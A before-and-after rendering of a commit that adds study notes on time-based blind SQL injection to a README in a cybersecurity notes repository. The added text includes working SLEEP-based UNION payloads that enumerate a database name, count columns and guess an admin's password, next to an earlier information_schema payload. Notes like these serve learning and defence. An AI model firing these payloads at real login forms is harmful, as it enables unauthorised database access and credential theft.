

Before and after one commit to JS0ff/cybersecurity_notes, a Markdown page: sql_injections_intro/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
take notes on Time Based Blind SQL injection

```diff
--- a/sql_injections_intro/README.md
+++ b/sql_injections_intro/README.md
@@ -220,3 +220,25 @@ Get column and table names:
 admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'db_name' AND table_name LIKE 'a%';--
 
 Loop through characters and after finishing with information_schema.tables, next step is information_schema.columns.
+
+### Time Based Blind SQL Injection
+
+Nothing to work with visually.
+
+Only signal is how much time is response coming from the server.
+
+The command to enumerate through database name, if s is present in name response time will take around 5 seconds, if not it will run right away:
+
+`admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 's%';--`
+
+#### Finding column count
+
+`admin123' UNION SELECT SLEEP(5),2;--`
+
+If response time is 5 seconds the column count is 2.
+
+#### Enumerating data
+
+`admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE 'password123%';--`
+
+delay => true, no delay => false.
```
